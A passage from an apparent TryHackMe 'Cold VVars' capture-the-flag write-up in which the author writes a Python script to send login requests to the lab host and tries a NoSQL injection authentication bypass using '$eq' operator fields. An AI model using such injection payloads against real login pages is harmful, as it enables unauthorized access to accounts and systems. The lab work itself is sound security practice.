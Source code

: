 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Cold-VVars/images/Pasted%20image%2020230120163618.png)

Nope.

Maybe it's using NoSQL DBMS (Database Management System) like MongoDB?

**Also, to automate things, I'll write a Python script:**
```py
#!/usr/bin/env python3

import requests
import logging

class Login:
    def __init__(self, url):
        self.__url = url

    def sendRequest(self, payload):
        logging.info(f'Payload: {payload}')

        loginData = {
            'username': payload,
            'password': 'anything',
            'submit': 'Login'
        }

        requestResult = requests.post(self.__url, data=loginData)
        logging.info(requestResult.text)

def main():
    logging.basicConfig(level=logging.INFO, format='[%(levelname)s] %(message)s')

    url = 'http://coldvvars.thm:8082/login'
    login = Login(url)

    payload = """"""
    login.sendRequest(payload)

if __name__ == '__main__':
    main()
```

NoSQL injection authentication bypass:

```py
loginData = {
    'username[$eq]': payload,
    'password[$eq]': 'hi',
    'submit': 'Login'
}

payload = """hi"""
```
